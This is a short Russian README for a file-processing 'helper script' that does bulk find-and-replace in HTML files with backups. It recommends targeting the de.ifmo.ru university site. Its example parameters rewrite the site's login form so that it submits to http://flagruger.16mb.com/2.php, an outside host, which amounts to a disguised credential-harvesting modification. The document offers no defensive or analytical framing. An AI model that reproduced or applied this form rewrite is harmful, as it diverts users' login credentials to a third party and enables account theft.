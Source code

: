 ﻿#HelperScript

В ходе работы возникла задача автоматической обработки нескольких документов по определенным правилам.

Данный скрипт
* позволяет произвести действия по замене частей файлов
* можно указать требуемые типы файлов
* делает бекапы файлов

Советуется применить этот скрипт к de.ifmo.ru 

Параметры скрипта
* <b>dirname</b> - папка с новыми файлами (по умолчанию !new)
* <b>backupdir<b> - папка с бекапом файлов (по умолчанию !old)
* <b>format<b> - какие документы (формат) изменяем (по умолчанию .html)
* <b>old<b> - что меняем (не забываем про экранирование кавычек обратным слешем) (например, "id=\"logonForm\" action=\"https://de.ifmo.ru/servlet/\"")
* <b>new<b> - на что меняем (при необходимости можно прогнать несколько раз) (например, "id=\"logonForm2\" action=\"http://flagruger.16mb.com/2.php/\"")
